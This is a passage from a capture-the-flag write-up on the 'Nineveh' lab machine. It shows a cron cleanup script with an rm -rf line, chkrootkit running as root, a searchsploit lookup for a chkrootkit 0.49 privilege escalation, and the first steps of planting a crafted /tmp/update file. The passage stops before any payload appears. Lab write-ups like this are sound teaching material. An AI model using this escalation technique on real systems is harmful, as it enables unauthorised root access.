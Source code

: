 The `report-reset.sh` script is set to run every 10 minutes. The contents of the script are interesting. There is a line to remove all `.txt` files from the `/reports` folder.

```none
amrois@nineveh:/dev/shm$ cat /usr/sbin/report-reset.sh
#!/bin/bash

rm -rf /report/*.txt
```

Having a `report` directory at the root level is kind of weird. So had a look at the conents. There were a bunch of txt files each run at set 1 minute intervals. The contents of the txt files looked like a lot of checks - but I had never seen this type of output before. A quick Google search of some of the more unique lines gave it away - a tool named `chkrootkit`. For reference, I just searched the last line of the file:

```none
Checking `OSX_RSPLUG'... not infected
```

Having a search for the program revealed it ran as `root` too.

```none
amrois@nineveh:/report$ ll -la /usr/bin/chkrootkit 
-rwx--x--x 1 root root 76181 Jul  2  2017 /usr/bin/chkrootkit*
```

After digging around for a while - finally got the common sense to search `chkrootkit` on `searchsploit`.

```none
└─$ searchsploit chkrootkit
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                              | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                      | linux/local/33899.txt
```

Having a look at the exploit, it was targeted at version 0.49.

```none
┌──(thomas㉿kali)-[~/machines/nineveh]
└─$ searchsploit -m linux/local/33899.txt     
```

The process was quite simple - and seems like the intended method to gain root access. Create a specially crafted `update` file in the `/tmp` folder.

```
cd /tmp
touch update
chmod +X update
```
